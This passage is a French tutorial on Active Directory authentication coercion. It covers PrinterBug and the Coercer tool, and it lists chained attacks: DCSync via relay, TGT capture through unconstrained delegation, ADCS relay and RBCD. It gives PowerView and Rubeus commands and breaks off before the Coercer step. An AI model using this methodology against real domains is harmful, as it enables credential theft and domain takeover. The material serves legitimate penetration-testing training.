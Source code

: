 ```
L’exploit **PrinterBug** est l’un des premiers exemples connus de coercition. Depuis, d’autres fonctions RPC vulnérables ont été identifiées. Elles permettent à un utilisateur du domaine de forcer un serveur distant (RemoteServer\$) à s’authentifier auprès d’un autre hôte contrôlé par l’attaquant. L’outil **Coercer** a été conçu pour exploiter plusieurs de ces fonctions RPC.

---

### 🎯 Impact

Une fois la coercition établie, l’attaquant peut effectuer différents types d’attaques en chaîne :

* **Relai vers un autre contrôleur de domaine (DC)** pour exécuter une attaque DCSync (si la signature SMB est désactivée).
* **Forcer un DC à se connecter à un serveur en Délégation Non Restreinte**, capturant ainsi un TGT dans la mémoire du serveur (outils : Rubeus, Mimikatz).
* **Relai vers les services de certificats Active Directory (ADCS)** pour générer un certificat s’identifiant comme un DC.
* **Configurer une délégation Kerberos basée sur les ressources** afin de s’authentifier comme n’importe quel administrateur sur la machine ciblée.

---

### 🔧 Méthodologie de l’attaque

Dans cet exemple, l’objectif est de **capturer un TGT** sur un serveur compromis configuré avec la **délégation non restreinte**, à l’aide de l’outil **Coercer**.

#### 🔎 Étapes :

1. **Identifier les serveurs avec Délégation Non Restreinte** (via PowerView) :

   ```powershell
   Get-NetComputer -Unconstrained | select samaccountname
   ```

   **Exemple de sortie :**

   ```
   samaccountname
   --------------
   DC1$
   SERVER01$
   WS001$
   DC2$
   ```

2. **Surveiller les tickets Kerberos avec Rubeus sur le serveur compromis (ex: WS001)** :

   ```cmd
   .\Rubeus.exe monitor /interval:1
   ```

3. **Lancer Coercer depuis une machine Kali pour forcer l’authentification du DC vers WS001** :
